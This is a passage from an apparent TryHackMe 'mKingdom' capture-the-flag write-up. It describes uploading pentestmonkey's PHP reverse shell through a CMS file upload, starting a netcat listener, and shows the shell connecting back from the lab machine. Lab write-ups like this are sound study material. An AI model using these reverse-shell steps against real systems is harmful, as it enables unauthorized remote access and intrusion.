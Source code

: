 ![Allowed Files](/assets/img/thm-mkingdom/allowed_files.png)
After that, we can navigate to the `files` section of the CMS, and upload a PHP reverse shell. I used the one from `pentestmonkey` [Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![File Upload](/assets/img/thm-mkingdom/upload_file.png)
Don't forget to start a shell listener
```zsh
nc -lvp 4444
```
After uploading the file, we are provided with a link to navigate to the file. When we click that we get a connection to our listener
![Upload Complete](/assets/img/thm-mkingdom/upload_complete.png)
```zsh
❯ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.11.47.141] from kingdom.thm [10.10.10.55] 49724
...
$ whoami
```